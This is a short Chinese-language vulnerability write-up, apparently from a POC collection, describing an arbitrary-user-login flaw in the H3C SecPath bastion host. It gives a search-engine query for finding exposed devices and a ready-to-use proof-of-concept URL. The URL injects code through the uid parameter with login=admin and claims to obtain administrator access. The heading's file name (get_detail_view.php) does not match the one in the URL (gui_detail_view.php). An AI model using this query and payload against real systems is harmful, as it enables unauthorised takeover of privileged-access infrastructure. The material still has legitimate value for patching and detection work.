 # H3C SecParh堡垒机 get_detail_view.php 任意用户登录漏洞

## 漏洞描述

H3C SecParh堡垒机 get_detail_view.php 存在任意用户登录漏洞

与齐治堡垒机出现的漏洞相似

## 漏洞影响

```
H3C SecParh堡垒机
```

## 网络测绘

```
app="H3C-SecPath-运维审计系统" && body="2018"
```

## 漏洞复现

登录页面如下

![](images/202202091826937.png)



POC验证的Url为

```plain
/audit/gui_detail_view.php?token=1&id=%5C&uid=%2Cchr(97))%20or%201:%20print%20chr(121)%2bchr(101)%2bchr(115)%0d%0a%23&login=admin
```



![](images/202202091826692.png)

成功获取admin权限



## 